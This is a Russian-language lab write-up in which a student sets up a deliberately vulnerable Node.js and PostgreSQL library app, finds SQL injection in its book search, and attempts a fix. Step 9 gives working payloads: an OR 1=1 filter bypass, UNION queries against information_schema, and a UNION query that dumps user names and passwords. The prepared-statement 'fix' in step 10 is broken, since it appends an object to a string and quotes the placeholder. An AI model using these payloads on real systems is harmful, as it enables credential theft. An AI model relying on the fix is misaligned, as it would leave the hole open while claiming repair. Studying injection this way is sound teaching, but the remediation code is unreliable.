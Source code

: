 # Лабораторная работа №2

Цель работы: Поиск и устранение SQL Injection.

## Задание 1

В папке lab2 находится nodejs уязвимое приложение. Необходимо развернуть его, найти SQL инъекцию и исправить. Модифицированное приложение загрузить в свой репозиторий GitHub.

Для выполнения лабораторной потребуется проделать следующие шаги:

1. Установить PostgreSQL сервер любой версии.
 
В качестве БД будем использовать docker-образ PostgreSQL. Запуск командой:

```bash
docker run --name postgres-lr -e POSTGRES_PASSWORD=passwddd -e POSTGRES_USER=postgres -e POSTGRES_DB=lib -d -p 5432:5432 postgres
```

2. Создать БД lib.

БД создается при запуске контейнера с помощью переменной окружения POSTGRES_DB=lib. 
 
3. Применить к ней скрипты из папки db (либо создать объекты и вставить данные в таблицы руками). Скрипты выполнять в порядке указанном в имени файла. Восстановить данные из файла data.sql.

Для входа в БД используется команда запуска шелла в контейнере, а затем, уже в контейнере, выполняется команда доступа к шеллу БД.

```bash
docker exec -it postgres-lr /bin/bash
psql -U postgres -d lib
```

<center>
 ![Picture 3.1](https://github.com/gk-j2/DevSecWeb/blob/main/ex02/pictures/3.1.png)
</center>

<center>![Picture 3.2](https://github.com/gk-j2/DevSecWeb/blob/main/ex02/pictures/3.2.png)</center>

<center>![Picture 3.3](https://github.com/gk-j2/DevSecWeb/blob/main/ex02/pictures/3.3.png)</center>

4. Установить nodejs версии 14.

5. Перейти в папку lab2 и выполнить в ней команду:

```bash
npm install
```

<center>![Picture 5](https://github.com/gk-j2/DevSecWeb/blob/main/ex02/pictures/5.png)</center>

6. Запустить сайт через Visual Studio Code или через команду:

```bash
npm start
```

<center>![Picture 6](https://github.com/gk-j2/DevSecWeb/blob/main/ex02/pictures/6.png)</center>

7. Войти на сайт и увидеть список книг и авторов.
 
<center>![Picture 7](https://github.com/gk-j2/DevSecWeb/blob/main/ex02/pictures/7.png)</center>
    
8. Обнаружить sql инъекцию.

Используем в качестве пейлоада одинарную кавычку и получаем ошибку и весь SQL запрос.

<center>![Picture 8](https://github.com/gk-j2/DevSecWeb/blob/main/ex02/pictures/8.png)</center>

9. Написать отчёт с описанием найденной уязвимости и примерами её эксплуатации. В отчете приветси информацию об: обходе установленного фильтра, получении данных из другой таблицы, похищении пароля пользователя.

Получим текущую таблицу в обход SQL-запроса приложения. Используем пейлоад:

```sql
%' or 1 = 1 --
```

<center>![Picture 9.1](https://github.com/gk-j2/DevSecWeb/blob/main/ex02/pictures/9.1.png)</center>

Получим схему БД для определения таблиц с помощью пейлоада:

```sql
%' union select null, table_schema, table_name from information_schema.tables --
```

<center>![Picture 9.2](https://github.com/gk-j2/DevSecWeb/blob/main/ex02/pictures/9.2.png)</center>

Из вывода можно найти информацию от том, что есть таблица public.users. С помощью следующего запроса определим какие столбцы есть в БД и их тип:


```sql
%' union select null, column_name,data_type  from information_schema.columns  where table_name = 'users'; --
```

<center>![Picture 9.3](https://github.com/gk-j2/DevSecWeb/blob/main/ex02/pictures/9.3.png)</center>

Посмотрим записи таблицы public.users с помощью запроса:

```sql
%' union select null, name, pass  from public.users; --
```

<center>![Picture 9.4](https://github.com/gk-j2/DevSecWeb/blob/main/ex02/pictures/9.4.png)</center>
 
10. Исправить уязвимость. В отчёте привести пример того, что уязвимости больше не эксплуатируются.
 
Для исправления уязвимости используем prepared statements в запросе поиска по книге.

```javascript
if(bookname){
        sql+={
            text: `\rwhere b.name like '%$1%'`,
            values: [bookname]
        };
    }
```

<center>![Picture 10](https://github.com/gk-j2/DevSecWeb/blob/main/ex02/pictures/10.png)</center>


P.S.
Помимо изученной SQLi обнаружена еще однин риск: хранение аутентификационных данных в коде программы.
Есть много способов получения аутентифкационных данных, одним из которых является PAM.
